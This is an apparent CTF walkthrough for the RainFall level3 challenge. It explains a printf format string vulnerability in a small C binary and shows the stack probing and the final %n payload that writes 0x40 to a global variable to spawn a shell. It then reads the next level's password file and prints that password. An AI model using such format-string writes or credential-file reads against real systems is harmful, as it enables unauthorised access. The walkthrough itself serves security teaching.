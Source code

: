 # level3: Exploiting a Format String Vulnerability

## Challenge Overview

In this challenge, we are tasked with exploiting a binary to gain access to the password for the next level. The binary contains a function `v()` that reads user input, prints it back, and checks if a global variable `m` is set to `0x40`. If the condition is met, the program executes a shell command to provide access to the next level.

## Source Code Analysis

The source code for the binary is as follows:

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

uint32_t m = 0x00000000; // Global variable stored at address 0x804988c

void v(void) {
    char buffer[520];

    // Read input from stdin
    fgets(buffer, sizeof(buffer), stdin);

    // Print the input back to stdout
    // printf("%s", buffer); Initial code from Ghidra, the original code actually did not use type specifiers
    printf(buffer);

    // Check if the condition is met
    if (m == 0x40) {
        fwrite("Wait what?!\n", 1, 12, stdout);
        system("/bin/sh");
    }
}

int main(void) {
    v();
    return 0;
}
```

Initially, when analyzing the binary in Ghidra, the decompiler showed the line `printf("%s", buffer);`. This is a safe way to use `printf` because it explicitly specifies the format string. However, testing the binary with the input `%x %x %x` revealed the following output:

```
level3@RainFall:~$ ./level3
%x %x %x
200 b7fd1ac0 b7ff37d0
```

This output indicates that the binary is actually using `printf(buffer);`, which is vulnerable to a format string attack. Ghidra had guessed the safer version of the code, but the actual binary does not include the format specifier.

## Vulnerability

The vulnerability lies in the use of `printf(buffer);`. When `printf` is called without a format specifier, it interprets the contents of `buffer` as a format string. This allows an attacker to:

1. Read arbitrary memory addresses using `%x` or `%s`.
2. Write to arbitrary memory addresses using `%n`.

## Exploitation

To exploit this vulnerability, we need to:

1. Write the value `0x40` (64 in decimal) to the global variable `m`, which is located at address `0x804988c`.
2. Use the `%n` format specifier to achieve this.

### What is `%n`?

The `%n` format specifier in `printf` writes the number of characters printed so far to the memory address provided as an argument. For example:

```c
int x = 0;
printf("Hello, world!%n", &x);
```

After this code runs, `x` will contain the value `13` because 13 characters were printed before `%n` was processed.

### What is `%c`?

The `%c` format specifier prints a single character. It is useful for controlling the number of characters printed, as each `%c` adds exactly one character to the output.

### How Does `printf` Find Arguments When None Are Given?

When `printf` is called, it looks for arguments on the stack. If no arguments are explicitly provided, `printf` will still attempt to retrieve them from the stack, interpreting whatever values it finds as arguments. This behavior is what makes format string vulnerabilities possible. For example:

```c
level3@RainFall:~$ ./level3
%x %x %x
200 b7fd1ac0 b7ff37d0
```

In this case, `printf` will print the values of the first three stack entries it encounters, even though no arguments were passed.

### Determining the Correct Parameter Position

To exploit the format string vulnerability, we needed to determine which parameter position on the stack corresponds to the address of the global variable `m` (0x804988c). This is critical for using the `%n` format specifier to write to the correct memory location.

#### Testing the Stack Layout

We used the following payload to print multiple stack values:

```bash
(python -c 'print "\x8c\x98\x04\x08" + " %x %x %x %x %x %x %x %x"'; cat) | ./level3
```

This payload:

1. Places the address of `m` (`0x804988c`, `\x8c\x98\x04\x08` in little-endian) at the beginning of the input. Check level1's walkthrough for more details about little-endian format.
2. Includes multiple `%x` format specifiers to print values from the stack.

#### Output Analysis

The output of the test was:

```
� 200 b7fd1ac0 b7ff37d0 804988c 20782520 25207825 78252078 20782520
```

Breaking this down:

- `200`: First stack value.
- `b7fd1ac0`: Second stack value.
- `b7ff37d0`: Third stack value.
- `804988c`: **Fourth stack value** (the address of `m`).

This confirmed that the address of `m` is at the 4th parameter position on the stack.

#### Final Payload

With this information, we updated our payload to use `%4$n` to write to the address of `m`:

```bash
(python -c 'print "\x8c\x98\x04\x08" + "%60c%4$n"'; cat) | ./level3
```

This payload:

1. Places the address of `m` at the beginning of the input. This is necessary for the address to be available as the 4th parameter in the `printf` function.
2. Prints 60 characters to bring the total character count to 64.
3. Uses `%4$n` to write the character count (64) to the address of `m`.

#### Verifying the Exploit

Running the updated payload produced the following output:

```
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "%60c%4$n"'; cat) | ./level3
�
Wait what?!
```

This confirmed that the value `0x40` (64 in decimal) was successfully written to `m`, triggering the condition to execute the shell command.

### Delivering the Exploit

We can deliver the payload using Python:

```bash
(python -c 'print "\x8c\x98\x04\x08" + "%60c%4$n"'; cat) | ./level3
```

This command:

- Generates the payload.
- Pipes it into the binary.
- Uses `cat` to keep stdin open for interaction with the shell. Check the level1's walkthrough for more details.

### Verifying the Exploit

Running the exploit produces the following output:

```
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "%60c%4$n"'; cat) | ./level3
�
Wait what?!
```

This confirms that the value `0x40` was successfully written to `m`, triggering the condition to execute the shell command.

## Getting the Password

After gaining shell access, we can retrieve the password for the next level:

```bash
cat /home/user/level4/.pass
```

The password is:

```
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

## Moving to Next Level

Use the password to log in as `level4`:

```bash
ssh level4@192.168.1.13 -p 4242
```
